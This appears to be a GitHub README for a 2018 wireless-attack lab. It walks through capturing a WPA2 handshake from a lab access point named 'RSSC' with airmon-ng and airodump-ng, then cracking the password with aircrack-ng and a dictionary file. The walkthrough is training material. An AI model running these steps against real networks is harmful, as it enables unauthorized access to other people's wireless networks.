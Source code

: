 # RSSC2018-Wireless-Attack-Lab

## Attack Execution
Here we will walk through the process of attacking and gaining access to a wireless access point.

1. The iwconfig command will show any wireless cards in the system. 
```bash
iwconfig
```
The operating system recognizes a wireless interface named wlan0.

2. Enable the wireless interface.
```bash
ifconfig wlan0 up
```

3. Force the wireless card to scan and report on all wireless networks in the vicinity. The SSID you are trying to target for this lab is named ‘RSSC’. You need the MAC address and the channel that this AP is transmitting on.
```bash
iwlist wlan0 scanning
```

4. Change the wireless card to monitoring mode. This will allow the wireless card to examine all the packets in the air. We do this by creating a monitor interface using airmon-ng. Verify airmon-ng sees your wireless card.
```bash
airmon-ng 
```

5. Change the wireless card to monitoring mode. This will allow the wireless card to examine all the packets in the air.
```bash
airmon-ng start wlan0
```

6. Run the ifconfig command to verify the monitor interface is created. We can see wlan0mon was created.
```bash
ifconfig 
```

7. Use airodump-ng to capture the WPA2 handshake. The attacker will have to catch someone in the act of authenticating to get a valid capture. Airodump-ng will display a valid handshake when it captures it. It will display the handshake confirmation in the upper right-hand corner of the screen. Run this command for 15 seconds and then break out of it using ‘ctrl + C’.
```bash
airodump-ng wlan0mon –bssid <mac-address> --channel <channel> –write <filename>
```

8. We will use aircrack-ng with the dictionary file to crack the password. Your chances of breaking the password are dependent on the password file.
```bash
aircrack-ng <filename>.cap -a 2 -w <dictionary path>
```
